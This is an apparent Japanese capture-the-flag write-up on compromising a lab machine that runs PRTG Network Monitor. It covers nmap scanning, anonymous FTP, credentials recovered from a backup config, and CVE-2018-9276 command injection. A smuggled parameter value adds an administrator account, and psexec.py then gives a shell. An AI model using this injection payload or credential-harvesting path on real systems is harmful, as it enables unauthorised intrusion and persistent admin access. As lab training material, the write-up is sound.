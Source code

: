 # 1\. Port scan

$ip=10.10.10.152

sudo nmap -sC -sV -Pn $ip

-sC  対象のポートやサービスにスクリプトを実行するためのオプション。

-sV サービスバージョンの検出を目的としたスキャンを実行するためのオプション

-Pn ホスト検出をスキップする。pingを打たずにポートスキャンを実施するオプション。

![9a6c9fc718661608b431b40ea1163f29.png](../_resources/9a6c9fc718661608b431b40ea1163f29.png)

上記nmapの結果から

FTP

PRTG bandwidth monitor

SMB

の3種類のサービスが使われてるのを確認した。

スキャンした結果、赤枠内のPRTGのバージョンが判明した為、googleから検索した結果、CVE-2018-9276の脆弱性が利用できるのを確認した。

参考URL:`https://github.com/A1vinSmith/CVE-2018-9276.git`

**CVE-2018-9276**

\*\*PRTGNetworkMoniterに関する脆弱性。\*\***この脆弱性はバージョン18.2.39以前のバージョンで見つかりました。****このバージョンのPRTG管理者ウェブコンソールに管理者権限を持つ攻撃者がアクセスした場合、センサーや****通知管理シナリオで不正なパラメータを送信することで、OSコマンドインジェクションの脆弱性が悪用される。**

# **2.SMBサービスをスキャン**

smbmap を使用してスキャンしたが認証に失敗した。

![5000f6b897f06af6b206fc6412c9f34f.png](../_resources/5000f6b897f06af6b206fc6412c9f34f.png)

# 3.FTPサーバにアクセス

![27420e565b7a11bf3adebdabf2a687bb.png](../_resources/27420e565b7a11bf3adebdabf2a687bb.png)

上記スキャン結果からFTPのパスワードが設定されていないことを確認した。

Anonymousログインに成功した。

![a83c13046125f3c7f554f7fc24f5b5cf.png](../_resources/a83c13046125f3c7f554f7fc24f5b5cf.png)

![cd73f9856e5fd04f90b9eb290dd502be.png](../_resources/cd73f9856e5fd04f90b9eb290dd502be.png)

user.txtをダウンロードした結果flagだった事を確認した。

# 4\. PRTGの情報を収集

nmapの実行結果から検知したサービスの情報と思われるものを確認した。

![51a94b536837f577c9c34c647e436b87.png](../_resources/51a94b536837f577c9c34c647e436b87.png)

## https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data

![b889331759fa829a866f148806fc1c00.png](../_resources/b889331759fa829a866f148806fc1c00.png)

デフォルトのインストール先がprogramdataに設定されている事をPaessler公式ページのSUPPORTから確認した。

ftpサーバへ接続は可能な為、同サーバ内からprogramdataディレクトリにアクセスできる事を確認した。

`ls`

![919951ffcf4eef7b04fb89d1803a9e2d.png](../_resources/919951ffcf4eef7b04fb89d1803a9e2d.png)

lsコマンドでは表示されなかった為 -laオプションで試行した。

`ls -la`

![c99b8462e07d6ccb05a0cff3f5175ada.png](../_resources/c99b8462e07d6ccb05a0cff3f5175ada.png)

hidden属性を含めたファイルを表示nmapで検出したサービス名と同じディレクトリを発見した。

`cd ProgramData`

`cd Paessler`

`cd ./"PRTG Network Monitor"`

![432de8bdd9419b0f6b695dcda9503c6d.png](../_resources/432de8bdd9419b0f6b695dcda9503c6d.png)

設定ファイルと思しき複数のファイルを確認したため解析の為にダウンロードした。

mget PRTG*

![017b45cb1e63d0c3dbbf46f60e620181.png](../_resources/017b45cb1e63d0c3dbbf46f60e620181.png)

ダウンロードした各種ファイルの解析を実施した。

`cat ./PRTG\ Configuration.dat | grep -B 3 -A 3 credential`

PRTG Configuration.datを解析したが有用な情報は確認できなかった。

![52c1cad51aae6289a2b820b9e2557adb.png](../_resources/52c1cad51aae6289a2b820b9e2557adb.png)

`cat ./PRTG\ Configuration.old | grep -B 3 -A 3 credential`

PRTG　Congiguration.oldを解析したが有用な情報は確認できなかった。

![2ea98b2f78f3df837a0c82a4e7fac2b4.png](../_resources/2ea98b2f78f3df837a0c82a4e7fac2b4.png)

バックアップを確認した結果

ファイル内のcredentialを表示した結果ユーザ名とパスワードを発見した。

PRTG　Configuration.old.bakを確認した所、ユーザIDとパスワードと思われる情報を確認した。

![8dfe2f19e004d2edd065cd7c9bc91caa.png](../_resources/8dfe2f19e004d2edd065cd7c9bc91caa.png)

記載してるユーザ情報でログインを試したが失敗した。

![d1c0f3386449415d710e8c67f61322f6.png](../_resources/d1c0f3386449415d710e8c67f61322f6.png)

パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測した。

![2f6b29b3a0646ad3a86c086fafabeb40.png](../_resources/2f6b29b3a0646ad3a86c086fafabeb40.png)

ログイン成功する。

# 5\. PRTGに侵入する

* * *

# ![53f6aee3f9146c7ff86701b83b2c3013.png](../_resources/53f6aee3f9146c7ff86701b83b2c3013.png)

[`https://github.com/A1vinSmith/CVE-2018-9276`](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)

[](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)を参考にして攻撃を実施した。

setup→

Account Settings →

Notifications→

Add new Notification

![94a809760f8a5f772e7cb1af9c5decf9.png](../_resources/94a809760f8a5f772e7cb1af9c5decf9.png)

# 6.OSインジェクションを試行する。

program file Demo exe notification – outfile.ps1

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

net user ユーザアカウントを追加した。

net localgroup administrators 　指定したユーザを管理者グループに追加した。

username prtgadmin

password PrTg@dmin2018を入力した。

![cbde80e4a400777524f6e963e918884f.png](../_resources/cbde80e4a400777524f6e963e918884f.png)

OSインジェクションを実施した。

作成したNotificationを実行できるのを確認した。

![bfba5762ac2138df97a5922022fc8968.png](../_resources/bfba5762ac2138df97a5922022fc8968.png)

pentestopユーザを作成した。

`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'`

smbmapで確認した結果、管理者権限で共有フォルダに接続できる事を確認した。

![1a5ec544d7e4ed8939519bb0567bac9e.png](../_resources/1a5ec544d7e4ed8939519bb0567bac9e.png)

パーミッションを確認した結果、管理共有C$ ADMIN$ がREAD,WRITEが許可されている為psexec.pyが使用できると推測した。

psexec.pyを使用してリモートアクセスを試行した。

psexec.pyは、IMPACKET Pythonモジュールに含まれる侵入テストスクリプトの一つです。このスクリプトは、Core Labsから提供されているIMPACKETツールセットの一部であり、侵入テストやセキュリティ評価のために使用されます。

`python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`

![95ee0d18ab01d774214508f076c59022.png](../_resources/95ee0d18ab01d774214508f076c59022.png)

whoamiコマンドからrootを取得できているかを確認した。

![6a5c94e8da760a84627b33b47e9202c2.png](../_resources/6a5c94e8da760a84627b33b47e9202c2.png)